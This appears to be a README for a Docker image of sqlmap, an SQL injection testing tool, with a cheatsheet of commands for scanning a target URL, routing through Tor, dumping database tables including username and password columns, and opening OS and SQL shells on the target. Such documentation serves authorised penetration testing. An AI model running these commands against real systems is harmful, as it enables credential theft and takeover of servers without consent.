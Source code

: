 ## Description

**sqlmap** is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

## Cheatsheet
### Easy scanning
```
docker run -it --rm secsi/sqlmap -u "<target_url>"
```

### Scanning using TOR
```
docker run -it --rm secsi/sqlmap -u "<target_url>" --tor --tor-type=SOCKS5
```

### Scanning with return time
```
docker run -it --rm secsi/sqlmap -u "<target_url>" --time-sec 15
```

### List databases
```
docker run -it --rm secsi/sqlmap -u "<target_url>" --dbs
```

### List tables in database
```
docker run -it --rm secsi/sqlmap -u "<target_url>" -D site_db --tables
```

### Dump content of a DB table
```
docker run -it --rm secsi/sqlmap -u "<target_url>" -D site_db -T users -dump
```

### List all columns in a table
```
docker run -it --rm secsi/sqlmap -u "<target_url>" -D site_db -T users --columns
```

### Dump selected columns
```
docker run -it --rm secsi/sqlmap -u "<target_url>" -D site_db -T users -C username,password --dump
```

### Dump a table from a DB when you have admin credentials
```
docker run -it --rm secsi/sqlmap -u "<target_url>" -method "POST" -data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users -dump
```

### Get OS Shell
```
docker run -it --rm secsi/sqlmap --dbms=mysql -u "<target_url>" --os-shell
```

### Get SQL Shell
```
docker run -it --rm secsi/sqlmap --dbms=mysql -u "<target_url>" --sql-shell
```